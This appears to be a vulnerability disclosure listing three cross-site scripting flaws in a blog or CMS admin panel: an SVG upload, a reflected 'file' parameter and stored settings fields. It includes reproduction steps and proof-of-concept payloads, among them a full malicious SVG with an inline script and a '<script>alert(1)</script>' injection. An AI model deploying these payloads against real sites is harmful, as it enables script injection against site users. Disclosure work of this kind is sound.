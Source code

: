 
### XSS via SVG File Upload

Steps to Reproduce:

1. Login with admin user
2. Visit "Media" page
3. Upload xss.svg
4. Click "View" and XSS payload will execute

```
// xss.svg contents

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(`XSS`);
   </script>
</svg>
```

### Reflected XSS

Steps to Reproduce:

1. Login as admin
2. Visit "Media" page
3. Click "Delete" and intercept the HTTP GET request
4. In "file" parameter add the payload ```"<script>alert(1)</script>"```
5. After forwarding the HTTP GET request a browser popup would surface


### Stored XSS

1. Steps to Reproduce:
2. Login as admin
3. Visit "Settings" page
4. Enter XSS payload in "Title", "Subtitle", "Footer"
5. Then visit the blog page

